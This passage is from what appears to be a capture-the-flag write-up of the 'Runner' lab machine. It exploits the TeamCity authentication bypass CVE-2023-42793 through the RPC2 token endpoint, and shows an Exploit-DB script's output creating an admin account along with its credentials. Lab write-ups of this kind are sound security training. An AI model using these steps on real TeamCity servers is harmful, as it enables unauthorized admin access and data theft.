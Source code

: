 Since I had no credentials, A quick Google search found that `Version 2023.05.3 (build 129390)` version is vulnerable to authentication bypass and Remote Code Execution (RCE)! -  [Exploiting CVE-2023-42793](https://www.logpoint.com/en/blog/emerging-threats/russian-threat-actor-exploiting-cve-2023-42793/) 

The vulnerability allows you to send a POST request to `/app/rest/users/id:1/tokens/RPC2` to grab an access token. Apparently, TeamCity skips authentication checks for requests matching the `/**/RPC2` wildcard path. Sneaky!

- I grabbed an RCE exploit script from Exploit-DB - [Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51884). This handy script creates a TeamCity admin account for you

```bash
$ python3 poc.py -u http://teamcity.runner.htb

=====================================================
*       CVE-2023-42793                              *
*  TeamCity Admin Account Creation                  *   
*                                                   *
*  Author: ByteHunter                               *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.bnl4OVNHcjdKYXhndkdZdGNHd2x4MzE3ZGlB.NjI3NDZhYmEtZDMxZC00NGQwLThkZWEtZTU0MGMzMTcxODEy
Token saved to ./token
Successfully exploited!
URL: http://teamcity.runner.htb
Username: admin.Vpl9
Password: Password@123
```

Armed with the newly created credentials (`admin.Vpl9:Password@123`), I logged into TeamCity

![img](/assets/img/Runner/7.webp)

After poking around a bit, I decided to try a backup. I navigated to the admin panel, ran a backup, and selected the "custom" option, making sure to include the database, build logs, and server settings
